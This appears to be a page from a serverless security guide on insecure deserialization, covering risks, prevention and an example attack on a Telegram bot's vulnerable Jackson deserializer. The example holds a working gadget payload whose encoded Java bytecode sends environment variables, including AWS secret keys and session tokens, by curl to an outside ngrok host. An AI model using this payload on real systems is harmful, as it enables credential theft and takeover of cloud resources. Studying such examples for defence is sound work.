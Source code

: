 # A8:2017 Insecure Deserialization
## Attack Vectors
Dynamic languages like Python and NodeJS, together with the common use of JSON, a serialized data type, could make deserialization attacks a little more common in the serverless world.

## Security Weakness
Together with the possible attack vector, the fact that most functions use 3rd-party libraries to handle the
(de)serialization of the data could introduce such weakness to our serverless application. Deserialization
vulnerabilities are pretty common in Python (e.g. ​[pickle​](http://xhyumiracle.com/python-pickle-injection) ) and JavaScript (​ [node-serialize​](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) ). But could also be found in ​ [.NET and Java​](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf).

## Impact
As usual, the business impact depends on the application and the data it handles. Insecure deserialization usually results in running arbitrary code that could eventually lead to data leakage and, in severe cases, even resource and account control.

## How to Prevent
- Validate serialized objects, originating from any untrusted data (e.g. cloud storage, databases, emails, notifications, APIs) by enforcing strict type constraints before processing it.
- Review 3rd-party libraries for known deserialization vulnerabilities.
- It is also a good practice to monitor deserialization usage and exceptions to identify possible attacks.

## Example Attack Scenario
An application is using a Telegram chat Bot agent to provide information about movies. To do so, a function is triggered when text messages are received (via API GW), taking the input and returning data related to the requested movie using the Open Movie Database (OMDb) API. However, the ​ JsonMapper class i ​ s using JSON deserialization, by calling jackson.databind.ObjectMapper.readValue() which is ​[known to be vulnerable​](https://nvd.nist.gov/vuln/detail/CVE-2017-17485).
<image>
This allows any unauthenticated telegram user to send malicious content via text and without performing input validation. To exploit it, the attacker needs to send a Java serialized object in the telegram text which will be translated into a JSON as part of the Bot API request.
<image>
By using the following payload, attackers can steal AWS environment data such as AWS_SESSION_TOKEN, AWS_SECRET_ACCESS_KEY, AWS_SECURITY_TOKEN, which could be used to create an AWS ​[AssumeRole​](https://docs.aws.amazon.com/cli/latest/reference/sts/assume-role.html) and access AWS resources.
>
    {'id': 124,
     'obj':[ 'com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl',
        {
        'transletBytecodes' :
            ['yv66vgAAADQAHgoABgARCgASABMIABQKABIAFQcAFgcAFwEABjxpbml0PgEAAygpVgEABENvZG
            UBAA9MaW5lTnVtYmVyVGFibGUBAARtYWluAQAWKFtMamF2YS9sYW5nL1N0cmluZzspVgEACkV
            4Y2VwdGlvbnMHABgBAApTb3VyY2VGaWxlAQAMcGF5bG9hZC5qYXZhDAAHAAgHABkMABoAGw
            EAR2Vudj1gZW52fGJhc2U2NCAtLXdyYXA9MGA7IGN1cmwgaHR0cDovL3Byb3RlZ29sYWJzLm5nc
            m9rLmlvP2RhdGE9JHtlbnZ9DAAcAB0BAAdwYXlsb2FkAQAQamF2YS9sYW5nL09iamVjdAEAE2phd
            mEvbGFuZy9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxq
            YXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5n
            L1Byb2Nlc3M7ACEABQAGAAAAAAACAAEABwAIAAEACQAAAB0AAQABAAAABSq3AAGxAAAAAQA
            KAAAABgABAAAAAQAJAAsADAACAAkAAAAmAAIAAgAAAAq4AAISA7YABEyxAAAAAQAKAAAACgA
            CAAAABAAJAAUADQAAAAQAAQAOAAEADwAAAAIAEA=='],
        'transletName' : 'a.b',
        'outputProperties' : { }
        }
      ]
    }
When the code runs, it will launch a new process which will send the environment credentials to the attacker. This could eventually lead to invoking the function manually,providing it with any type of input which can end in a complete takeover of cloud resources, depending on the permissions of the function.
<image>

## Serverless Risk Meter
Deserialization attacks are considered hard to find and exploit. In serverless, they are also limited to the time and space of the function, which has a reduced surface. However, importing vulnerable libraries that handle de/serialization of data is very common, and the increased use of JSON types together with dynamic languages like Python and JavaScript could result in code injection, which could eventually lead into resource takeover by the attacker.